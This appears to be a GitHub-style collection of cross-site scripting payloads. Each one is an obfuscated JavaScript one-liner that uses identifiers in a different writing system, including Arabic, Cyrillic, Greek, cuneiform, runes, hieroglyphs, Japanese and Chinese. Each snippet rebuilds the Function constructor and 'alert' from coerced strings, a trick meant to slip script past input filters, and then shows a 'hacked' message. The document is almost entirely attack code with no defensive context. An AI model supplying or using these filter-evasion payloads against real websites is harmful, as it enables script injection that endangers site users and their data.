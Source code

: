 XSS Payload Written In Arabic
```
ا='',ب=!ا+ا,ت=!ب+ا,ث=ا+{},ج=ب[ا++],ح=ب[خ=ا],
د=++خ+ا,ذ=ث[خ+د],ب[ذ+=ث[ا]+(ب.ت+ث)[ا]+ت[د]+ج+ح+ب[خ]+ذ+ج+ث[ا]+ح][ذ](ت[ا]+ت[خ]+ب[د]+ح+ج+"(1)")()
```
XSS Payload Written in Russian 🇷🇺
```
а='',б=!а+а,в=!б+а,г=а+{},д=б[а++],е=б[ж=а],
з=++ж+а,и=г[ж+з],б[и+=г[а]+(б.в+г)[а]+в[з]+д+е+б[ж]+и+д+г[а]+е][и](в[а]+в[ж]+б[з]+е+д+"('взломано')")()
```
XSS Payload Written In Ancient Greek Language

```
α='',β=!α+α,γ=!β+α,δ=α+{},ε=β[α++],ζ=β[ι=α],η=++ι+α,θ=δ[ι+η],
β[θ+=δ[α]+(β.γ+δ)[α]+γ[η]+ε+ζ+β[ι]+θ+ε+δ[α]+ζ][θ](γ[α]+γ[ι]+β[η]+ζ+ε+"('Ĥαcεκd βγ γαssιη')")()
```
XSS Payload Written in Ancient Indus Language 📜
```
𒀱='',𒁍=!𒀱+𒀱,𒂖=!𒁍+𒀱,𒃵=𒀱+{},𒄿=𒁍[𒀱++],𒅗=𒁍[𒀲=𒀱],
𒆜=++𒀲+𒀱,𒇻=𒃵[𒀲+𒆜],
𒁍[𒇻+=𒃵[𒀱]+(𒁍.𒂖+𒃵)[𒀱]+𒂖[𒆜]+𒄿+𒅗+𒁍[𒀲]+𒇻+𒄿+𒃵[𒀱]+𒅗][𒇻](𒂖[𒀱]+𒂖[𒀲]+𒁍[𒆜]+𒅗+𒄿+"('𒀱𒀲𒀱𒋻𒆜𒀲𒁂𒐫𒉿𒀜𒅔')")()
```

XSS Payload Written in Inuktitut language 📜
```
ᐊ='',ᐃ=!ᐊ+ᐊ,ᐅ=!ᐃ+ᐊ,ᐱ=ᐊ+{},ᑎ=ᐃ[ᐊ++],ᓇ=ᐃ[ᓕ=ᐊ],ᓯ=++ᓕ+ᐊ,ᓂ=ᐱ[ᓕ+ᓯ],
ᐃ[ᓂ+=ᐱ[ᐊ]+(ᐃ.ᐅ+ᐱ)[ᐊ]+ᐅ[ᓯ]+ᑎ+ᓇ+ᐃ[ᓕ]+ᓂ+ᑎ+ᐱ[ᐊ]+ᓇ]
    [ᓂ](ᐅ[ᐊ]+ᐅ[ᓕ]+ᐃ[ᓯ]+ᓇ+ᑎ+"('ᐊᐃᓐᓇᓂᐅᑦ ᐱᔭᓯᓕᖅ')")()
```
XSS Payload Written In Glagolitic 📜
```
Ⰰ='',Ⰱ=!Ⰰ+Ⰰ,Ⰲ=!Ⰱ+Ⰰ,Ⰳ=Ⰰ+{},Ⰴ=Ⰱ[Ⰰ++],Ⰵ=Ⰱ[Ⰶ=Ⰰ],Ⰷ=++Ⰶ+Ⰰ,Ⰸ=Ⰳ[Ⰶ+Ⰷ],Ⰱ[Ⰸ+=Ⰳ[Ⰰ]+(Ⰱ.Ⰲ+Ⰳ)[Ⰰ]+Ⰲ[Ⰷ]+Ⰴ+Ⰵ+Ⰱ[Ⰶ]+Ⰸ+Ⰴ+Ⰳ[Ⰰ]+Ⰵ][Ⰸ](Ⰲ[Ⰰ]+Ⰲ[Ⰶ]+Ⰱ[Ⰷ]+Ⰵ+Ⰴ+"('ⰀⰁⰂⰃⰄⰅⰆⰇⰈ')")()
```
XSS Payload Written In Linear B language 📜
```
𐀀='',𐀁=!𐀀+𐀀,𐀂=!𐀁+𐀀,𐀃=𐀀+{},𐀄=𐀁[𐀀++],𐀅=𐀁[𐀆=𐀀],𐀇=++𐀆+𐀀,𐀈=𐀃[𐀆+𐀇],𐀁[𐀈+=𐀃[𐀀]+(𐀁.𐀂+𐀃)[𐀀]+𐀂[𐀇]+𐀄+𐀅+𐀁[𐀆]+𐀈+𐀄+𐀃[𐀀]+𐀅][𐀈](𐀂[𐀀]+𐀂[𐀆]+𐀁[𐀇]+𐀅+𐀄+"('𐀀𐀁𐀂𐀃𐀄 𐀅𐀆𐀇𐀈')")()
```
XSS Payload Written In Runic 📜
```
ᚠ='',ᚢ=!ᚠ+ᚠ,ᚦ=!ᚢ+ᚠ,ᚨ=ᚠ+{},ᚱ=ᚢ[ᚠ++],ᚲ=ᚢ[ᚷ=ᚠ],ᚹ=++ᚷ+ᚠ,ᚺ=ᚨ[ᚷ+ᚹ],ᚢ[ᚺ+=ᚨ[ᚠ]+(ᚢ.ᚦ+ᚨ)[ᚠ]+ᚦ[ᚹ]+ᚱ+ᚲ+ᚢ[ᚷ]+ᚺ+ᚱ+ᚨ[ᚠ]+ᚲ][ᚺ](ᚦ[ᚠ]+ᚦ[ᚷ]+ᚢ[ᚹ]+ᚲ+ᚱ+"('ᛞᚾᛋᚨᛏᛡᚠᛚᛖᚺᛋᛉᛏᚱ')")()
```
XSS Payload Written In Ancient YI language 📜
```
ꆈ='',ꌠ=!ꆈ+ꆈ,ꁱ=!ꌠ+ꆈ,ꁯ=ꆈ+{},ꉬ=ꌠ[ꆈ++],ꃅ=ꌠ[ꋍ=ꆈ],ꇁ=++ꋍ+ꆈ,ꊰ=ꁯ[ꋍ+ꇁ],ꌠ[ꊰ+=ꁯ[ꆈ]+(ꌠ.ꁱ+ꁯ)[ꆈ]+ꁱ[ꇁ]+ꉬ+ꃅ+ꌠ[ꋍ]+ꊰ+ꉬ+ꁯ[ꆈ]+ꃅ][ꊰ](ꁱ[ꆈ]+ꁱ[ꋍ]+ꌠ[ꇁ]+ꃅ+ꉬ+"('ꆈꌠꁱꁯꉬꃅꋍꇁꊰꌠꁱꉬꇁꊰꆈꋍꁯꃅꆈꌠꁱꁯꉬꃅꋍꇁꊰ')")()
```
XSS Payload Written In Hieroglyphics 🇪🇬

```
𓀀='',𓁹=!𓀀+𓀀,𓆣=!𓁹+𓀀,𓉐=𓀀+{},𓂀=𓁹[𓀀++],𓏏=𓁹[𓀂=𓀀],
𓎛=++𓀂+𓀀,𓅓=𓉐[𓀂+𓎛],
𓁹[𓅓+=𓉐[𓀀]+(𓁹.𓆣+𓉐)[𓀀]+𓆣[𓎛]+𓂀+𓏏+𓁹[𓀂]+𓅓+𓂀+𓉐[𓀀]+𓏏][𓅓](𓆣[𓀀]+𓆣[𓀂]+𓁹[𓎛]+𓏏+𓂀+"('𓀀𓁹𓆣𓉐𓂀𓏏𓎛𓅓')")()
```

XSS Payload Written In Japanese 🇯🇵
```
あ='',い=!あ+あ,う=!い+あ,え=あ+{},お=い[あ++],か=い[き=あ],
く=++き+あ,け=え[き+く],
い[け+=え[あ]+(い.う+え)[あ]+う[く]+お+か+い[き]+け+お+え[あ]+か][け](う[あ]+う[き]+い[く]+か+お+"('ハッキングされました')")()
```
XSS Payload Written In Chinese 🇨🇳 
```
甲='',乙=!甲+甲,丙=!乙+甲,丁=甲+{},戊=乙[甲++],己=乙[庚=甲],
辛=++庚+甲,壬=丁[庚+辛],
乙[壬+=丁[甲]+(乙.丙+丁)[甲]+丙[辛]+戊+己+乙[庚]+壬+戊+丁[甲]+己][壬](
丙[甲]+丙[庚]+乙[辛]+己+戊+"('被攻擊了')"
)()
```
